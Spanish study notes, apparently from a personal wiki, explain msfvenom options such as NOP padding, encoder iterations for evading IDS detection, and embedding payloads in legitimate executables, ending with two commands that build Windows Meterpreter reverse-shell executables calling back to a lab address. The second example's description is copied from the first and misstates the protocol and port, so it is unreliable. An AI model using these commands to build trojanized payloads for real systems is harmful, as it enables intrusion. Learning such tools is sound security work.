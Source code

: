 ## `-n <tamaño>`
Inserta bloques NOPs del tamaño indicado al incio del [[Payload]].

Utilizando el modificador `-pad-nops`, el tamaño indicado se interpreta como el tamaño total del [[Payload]], generando automáticamente los NOPs necesarios para cumplirlo.

## `-s <tamaño>`
Define el tamaño del [[Payload]] antes de ofuscarlo con el encoder.

Utilizando `-encoder-space <tamaño>` se logra lo mismo, pero por defecto, su valor es el mismo que se hubiera pasado usando `-s`.

## `-i <veces>`
Define las veces que se aplica el encoder.
-> Útil contra [[IDS|IDSs]] que leen tráfico en `base64` y lo descodifican (cuando en realidad se aplicó $i$ veces).

## `-c <ruta>`
Añade el [[Shellcode]] *win32* adicional indicado.

## `-x <ruta>`
Utiliza un ejecutable legítimo como base para generar la salida.

## `-k`
Define que se mantenga el ejecutable legítimo (indicado con `-x`) en el ejecutaable infectado, lanzando el [[Payload]] como una nueva [[Hebra]].

## `-v <valor>`
Permite especificar un nombre de variable distinto del estándar en algunos formatos de salida.

## `-t <tiempo>`
Cantidad de segundos que espera para leer el [[Payload]] desde [[STDIN]].
- Por defecto, el valor es 30 segundos.
- Usar 0 como valor anula esta opción.

## Ejemplos
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=80 -f exe > shell1.exe
```
Genera un archivo ejecutable para [[Windows]] que al abrirse, genera una [[Reverse Shell]] vía [[TCP]] conectando con `192.168.56.1:80` (mi máquina local) y ejecuta [[Meterpreter]].

```shell
msfvenom -p windows/meterpreter_reverse_http LHOST=192.168.56.1 LPORT=1025 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64)" -f exe > shell2.exe
```
Genera un archivo ejecutable para [[Windows]] que al abrirse, genera una [[Reverse Shell]] vía [[TCP]] conectando con `192.168.56.1:80` (mi máquina local) y ejecuta [[Meterpreter]].
